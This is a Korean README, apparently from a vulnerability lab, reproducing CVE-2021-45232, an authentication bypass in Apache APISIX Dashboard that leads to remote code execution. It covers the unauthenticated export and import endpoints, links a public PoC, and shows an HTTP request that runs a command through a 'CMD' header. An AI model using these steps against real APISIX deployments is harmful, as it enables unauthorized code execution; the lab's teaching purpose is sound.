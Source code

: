 # Apache APISIX Dashboard Unauthenticated Access Leads to RCE (CVE-2021-45232)

[中文版本(Chinese version)](README.zh-cn.md)

Apache APISIX는 동적인 실시간 고성능 API 게이트웨이이며 Apache APISIX Dashboard는 Apache APISIX를 관리하는 데 사용되는 사용하기 쉬운 프론트엔드 인터페이스입니다.

2.10.1 이전의 Apache API 대시보드에서는 Manager API가 두 가지 프레임워크를 사용하여 프레임워크 gin을 기반으로 드롭릿을 소개하고, 모든 API와 인증 미들웨어는 프레임워크 droplet을 기반으로 개발됩니다. 그러나 프레임워크 gin의 인터페이스를 직접 사용하는 API는 /apisix/admin/migrate/export와 /apisix/admin/migrate/import 두 가지로 인증을 우회할 수 있습니다.

공격자는 인증되지 않은 API 엔드포인트 2개를 사용하여 라우터, 서비스, 스크립트 등을 포함한 임의 Apache APISIX 구성을 내보내고 가져올 수 있으며, 이로 인해 SSRF(Request Unexpected URL)가 발생하거나 임의 LUA 스크립트(RCE)가 실행됩니다.
자료:

- https://apisix.apache.org/blog/2021/12/28/dashboard-cve-2021-45232/
- https://github.com/wuppp/cve-2021-45232-exp

## 취약한 환경

다음 명령을 실행하여 취약한 Apache APISIX Dashboard 2.9를 시작합니다:

```
docker compose up -d
```

그런 다음 'http://your-ip:9000/'에 접속하면 Apache APISIX Dashboard 로그인 페이지를 볼 수 있습니다.

## 익스플로잇

'/apisix/admin/migrate/export'와 '/apisix/admin/migrate/import'는 Apache APISIX 대시보드에서 제공하는 2개의 인증되지 않은 API로, Apache APISIX에 대한 구성을 내보내고 가져오기 위해 사용됩니다. 따라서 사용자가 제공하는 LUA 스크립트가 포함된 악의적인 라우터를 사용하여 크래프트 구성을 간단하게 가져올 수 있습니다:

![](1.png)

마지막 4바이트는 이 파일의 CRC checksum이므로 자동 POC를 사용하여 [이 POC](https://github.com/wuppp/cve-2021-45232-exp) 와 같이 요청을 빌드하고 전송하는 것이 좋습니다.

악의적인 라우터를 추가한 후, 요청을 Apache APISIX(아파치 APISIX 대시보드와 다름)로 전송하여 LUA 스크립트를 트리거해야 합니다.

Apache APISIX는 다음 환경에서 포트 9080에서 수신합니다:

```
GET /okw1Rh HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Connection: close
CMD: id
Cache-Control: max-age=0


```

![](2.png)

보다시피 'CMD' 헤더의 명령어는 Apache APISIX에 의해 실행됩니다.
